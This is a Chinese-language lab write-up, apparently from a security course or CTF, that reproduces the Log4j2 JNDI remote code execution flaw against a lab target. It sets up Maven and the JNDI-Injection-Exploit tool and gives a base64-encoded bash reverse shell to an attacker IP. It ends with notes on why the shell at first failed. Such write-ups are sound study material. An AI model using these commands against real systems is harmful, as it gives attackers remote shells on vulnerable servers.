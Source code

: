# log4j2漏洞利用复现

## 漏洞原理

通过网上一张图解释漏洞原理，java应用程序提供的jndi
接口自动记录日志，并且会执行${jndi:ldap:}命令，因此只要提供一个恶意代码文件，就能通过这个命令让靶机去攻击机查找并下载病毒文件，然后返回poc.class给攻击机从而攻击机获得shell权限。

![alt text](principle.png)

## 下载maven安装包

`wget https://dlcdn.apache.org/maven/maven-3/3.9.4/binaries/apache-maven-3.9.4-bin.tar.gz`

![alt text](images/image-13.png)

通过命令`tar -zxvf apache-maven-3.9.4-bin.tar.gz`解压缩

在解压目录能够发现apache-mave-3.9.4文件

![alt text](images/image-14.png)

修改配置文件`vim /etc/profil`,在配置文件上添加相应的环境变量

```python
export MAVEN_HOME=/root/apache-maven-3.9.4 
export PATH=$MAVEN_HOME/bin:$PATH
```

![alt text](images/image-15.png)

`source /etc/profile`刷新配置文件，以确保修改生效

mvn安装完成

![alt text](images/image-16.png)

## 安装jndi注入工具

克隆github提供的注入包，这里是已经克隆好的

![alt text](images/image-12.png)

切换到 JNDI-Injection-Exploit目录，通过`mvn clean package -DskipTests命令编译打包`

![alt text](images/image-17.png)

接下来就可以利用JNDI注入工具进行攻击

## 注入攻击

构建反弹shell到攻击者主机端口，靶机定向到攻击机后自动下载ExecTemplateJDK8.class文件，然后触发，攻击机获取shell权限：

`bash -i >& /dev/tcp/192.168.249.8/6667 0>&1`命令进行URL编码`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==`，IP指定为攻击机IP，端口选取未被占用端口

监听6667端口

![alt text](images/image-20.png)

构建注入命令

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
     -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==}|{base64,-d}|{bash,-i}" \
     -A "192.168.249.8"
```

![alt text](images/image-18.png)

可以通过java -version查询相应的版本并选取来构造payload，之前kali默认按安装2.0版本，降级为1.8版本（这地方存在问题，后文会说）

![alt text](images/image-19.png)

选取`rmi://192.168.249.8:1099/fswrwl`进行URL编码并payload构造

![alt text](images/image-21.png)

和之前环境利用测试的一样会瞬间连接并断开

![alt text](images/image-22.png)

获得shell

![alt text](images/image-23.png)

flag在shell的tmp文件中

![alt text](image.png)

## 问题和解决

### java 版本

![alt text](images/image-24.png)

之前构造payload后拿不到反弹shell，检查java版本过高，然后将攻击机和靶机都降级为1.8版本，但是还是无法获得shell。随后以为是trustURLCodebase原因，trustURLCodebase为true的1.8版本无法实现注入，反而是`Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):`能够实现注入，比较反常

### http 版本

观察端口可以发现，搭建的java进程都是IPv6通信，当时怀疑是协议不对称的问题导致的

![alt text](images/image-25.png)

于是更换为IPV4java进程，但是依旧无法获得shell

![alt text](images/image-26.png)

![alt text](images/image-27.png)

### 服务器原因

考虑到JNDI搭建的服务器断开连接并且访问攻击机8180显示访问页面为空，搭建http服务能够看见相应的文件，猜测会是服务器没有正确将本地文件进行挂载

![alt text](images/image-32.png)

![alt text](images/image-30.png)

但是通过curl攻击机均有回复

![alt text](images/image-28.png)

![alt text](images/image-29.png)

并且能够通过URL获取ExecTemplateJDK8.class

![alt text](images/image-31.png)

因此服务器应该是能够将class文件正确挂载

### 攻击手段原因

直接使用bash命令不进行包装是能够成功的，因此是注入工具出现问题

![alt text](images/image-34.png)

### 环境

攻击机和靶机均应不大于java1.8

## 参考文档

[maven 的安装与配置（Command ‘mvn‘ not found）修改配置文件后新终端依旧无法识别到 mvn 命令](https://myon6.blog.csdn.net/article/details/136558685?spm=1001.2014.3001.5502)

[log4j2 远程代码执行漏洞复现（CVE-2021-44228）](https://blog.csdn.net/Myon5/article/details/136548391)

[Kali安装JAVA8和切换JDK版本的详细过程](https://blog.csdn.net/huayimy/article/details/130273362)

[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub，保姆级的详细教程）](https://blog.csdn.net/Bossfrank/article/details/130148819)

[网络空间安全综合实践](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#)

